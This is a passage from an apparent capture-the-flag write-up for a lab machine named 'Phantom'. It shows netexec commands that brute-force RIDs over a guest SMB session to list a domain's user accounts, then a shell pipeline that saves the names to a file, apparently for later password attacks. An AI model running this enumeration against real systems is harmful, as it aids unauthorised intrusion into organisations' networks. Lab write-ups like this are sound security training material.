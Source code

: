 nice we got password lets grab username list with

```sh
➜  Phantom nxc smb 10.10.96.47 -u Guest -p '' --rid-brute
[SNIP]
SMB         10.10.96.47     445    DC               1118: PHANTOM\bbarnes (SidTypeUser)
SMB         10.10.96.47     445    DC               1119: PHANTOM\cjones (SidTypeUser)
SMB         10.10.96.47     445    DC               1120: PHANTOM\agarcia (SidTypeUser)
SMB         10.10.96.47     445    DC               1121: PHANTOM\ppayne (SidTypeUser)
SMB         10.10.96.47     445    DC               1122: PHANTOM\ibryant (SidTypeUser)
SMB         10.10.96.47     445    DC               1123: PHANTOM\ssteward (SidTypeUser)
SMB         10.10.96.47     445    DC               1124: PHANTOM\wstewart (SidTypeUser)
SMB         10.10.96.47     445    DC               1125: PHANTOM\vhoward (SidTypeUser)
SMB         10.10.96.47     445    DC               1126: PHANTOM\crose (SidTypeUser)
SMB         10.10.96.47     445    DC               1127: PHANTOM\twright (SidTypeUser)
SMB         10.10.96.47     445    DC               1128: PHANTOM\fhanson (SidTypeUser)
SMB         10.10.96.47     445    DC               1129: PHANTOM\cferguson (SidTypeUser)
SMB         10.10.96.47     445    DC               1130: PHANTOM\alucas (SidTypeUser)
SMB         10.10.96.47     445    DC               1131: PHANTOM\ebryant (SidTypeUser)
SMB         10.10.96.47     445    DC               1132: PHANTOM\vlynch (SidTypeUser)
SMB         10.10.96.47     445    DC               1133: PHANTOM\ghall (SidTypeUser)
SMB         10.10.96.47     445    DC               1134: PHANTOM\ssimpson (SidTypeUser)
SMB         10.10.96.47     445    DC               1135: PHANTOM\ccooper (SidTypeUser)
SMB         10.10.96.47     445    DC               1136: PHANTOM\vcunningham (SidTypeUser)
```
and fresh list
### fresh-username-list
```sh
➜  Phantom cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2
Administrator
Guest
krbtgt
DC$
svc_sspr
rnichols
pharrison
wsilva
elynch
nhamilton
lstanley
bbarnes
cjones
agarcia
ppayne
ibryant
ssteward
wstewart
vhoward
crose
twright
fhanson
cferguson
alucas
ebryant
vlynch
ghall
ssimpson
ccooper
vcunningham
➜  Phantom cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt
```
